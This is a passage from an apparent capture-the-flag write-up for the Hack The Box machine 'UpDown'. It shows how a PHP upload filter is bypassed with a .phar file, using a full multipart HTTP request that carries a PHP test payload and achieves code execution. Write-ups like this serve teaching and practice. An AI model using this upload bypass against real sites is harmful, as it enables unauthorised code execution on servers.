 ```http
```

![Persisted File](/assets/images/2023/01/UpDown/PersitedFile.png "Persited File")

The code was blocking PHP files. But PHP [supports many extensions](https://book.hacktricks.xyz/pentesting-web/file-upload#file-upload-general-methodology). I found out I could upload `.phar` files and they were executed. 

```http
POST / HTTP/1.1
Host: dev.siteisup.htb
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: multipart/form-data; boundary=---------------------------27067171744469957932680288557
Content-Length: 384
Origin: http://dev.siteisup.htb
Connection: close
Referer: http://dev.siteisup.htb/
Upgrade-Insecure-Requests: 1
Special-Dev: only4dev

-----------------------------27067171744469957932680288557
Content-Disposition: form-data; name="file"; filename="test.phar"
Content-Type: text/plain

<?php
echo 'RCE<br />';
?>
https://app.hackthebox.com
-----------------------------27067171744469957932680288557
Content-Disposition: form-data; name="check"

Check
-----------------------------27067171744469957932680288557--
```

![RCE](/assets/images/2023/01/UpDown/RCE.png "RCE")
